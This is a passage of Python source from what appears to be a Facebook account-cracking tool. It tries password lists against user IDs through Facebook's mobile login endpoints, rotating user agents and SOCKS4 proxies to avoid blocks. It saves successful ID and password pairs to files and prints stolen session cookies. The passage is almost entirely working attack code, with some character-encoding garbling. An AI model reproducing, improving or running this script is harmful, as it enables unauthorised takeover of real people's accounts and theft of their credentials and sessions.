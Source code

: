 	else:
		print(f'\t \x1b[1;91m\x1b[1;96m\x1b[1;97m BYE {u} ')
		time.sleep(2)
		exit()

def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\r{bo}[DSON-FM] {P}[{h}{loop}{P}]>~<[{h}{len(id)}{P}]{bo}â€¢{P}[{h}Ok{P}â€¢{bo}{ok}{P}] "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-US,en;q=0.9,ar-US;q=0.8,ar;q=0.7"})
			p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r\x1b[1;91m \n-------------------(AHMED😕¬-CP)---------------------- \nâ””â”€â”€UID: {idf}\nâ””â”€â”€PASS: {pw}')     
				
				open('CP/'+cp,'a').write(idf+'|'+pw+'\n')
				os.system('espeak -a 300 " C,  P"')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r\x1b[1;92m \n-------------------(AHMED🕶️ðŸ”¥-OK)---------------------- \nâ””â”€â”€USER: {idf}\nâ””â”€â”€PASS: {pw}\nâ””â”€â”€COOKIES: {kuki}')
